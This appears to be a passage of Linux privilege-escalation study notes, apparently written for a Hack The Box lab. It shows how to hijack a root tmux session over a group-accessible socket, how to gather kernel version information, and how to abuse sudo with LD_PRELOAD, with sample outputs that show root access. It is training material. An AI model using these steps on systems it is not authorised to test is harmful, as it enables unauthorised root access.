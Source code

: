 ## Hijacking Tmux Sessions
- **Description**: Tmux allows multiple terminal sessions in one console. Misconfigured sessions (e.g., root-owned with weak permissions) can be hijacked.
- **Create Shared Session**:  
  ```bash
  tmux -S /shareds new -s debugsess
  chown root:devs /shareds
  ```
- **Check Tmux Processes**:  
  ```bash
  ps aux | grep tmux
  ```
  Output: `root 4806 ... tmux -S /shareds new -s debugsess`
- **Verify Permissions**:  
  ```bash
  ls -la /shareds
  ```
  Output: `srw-rw---- 1 root devs ... /shareds`
- **Check Group Membership**:  
  ```bash
  id
  ```
  Output: `uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)`
- **Attach to Session**:  
  ```bash
  tmux -S /shareds
  id
  ```
  Output: `uid=0(root) gid=0(root) groups=0(root)`

# Kernel Exploits

## Kernel information
- **Kernel version**: Get current kernel version.  
  `uname -a`
- **Release info**: Shows release information.  
  `cat /etc/lsb-release`

# Shared libraries

## Running exploit
- **LD_PRELOAD**: User must have sudo privilages on some binary with LD_PRELOAD enviroment variable access.  
  `sudo -l`
- **Run exploit**: Runs exploit with added enviroment variable to preload.  
  `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2`
